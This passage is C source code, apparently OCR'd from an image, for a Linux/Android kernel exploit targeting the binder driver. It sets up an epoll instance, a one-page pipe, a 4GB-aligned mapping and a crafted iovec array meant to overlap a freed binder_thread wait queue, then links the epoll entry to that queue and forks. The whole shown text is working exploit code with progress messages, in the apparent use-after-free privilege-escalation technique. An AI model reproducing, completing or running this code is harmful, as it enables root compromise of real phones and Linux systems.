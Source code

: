 ```c
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
        printf("\t[*] Changed the pipe capacity to: 0x%x\n", PAGE_SIZE);
    }

    printf("[+] Setting up iovecs\n");


      if (!m_4gb_aligned_page) {
        printf("[+] Mapping 4GB aligned page\n");

        m_4gb_aligned_page = mmap(
                (void *) 0x100000000ul,
                PAGE_SIZE,
                PROT_READ | PROT_WRITE,
                MAP_PRIVATE | MAP_ANONYMOUS,
                -1,
                0
        );

        if (!m_4gb_aligned_page) {
            printf("\t[-] Unable to mmap 4GB aligned page\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] Mapped page: %p\n", m_4gb_aligned_page);
        }
    }

    iovecStack[IOVEC_WQ_INDEX].iov_base = m_4gb_aligned_page;
    iovecStack[IOVEC_WQ_INDEX].iov_len = PAGE_SIZE;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_base = (void *) 0x41414141;
    iovecStack[IOVEC_WQ_INDEX + 1].iov_len = PAGE_SIZE;
    
    printf("[+] Linking eppoll_entry->wait.entry to binder_thread->wait.head\n");

    epoll_ctl(m_epoll_fd, EPOLL_CTL_ADD, m_binder_fd, &m_epoll_event);

    pid_t childPid = fork();
```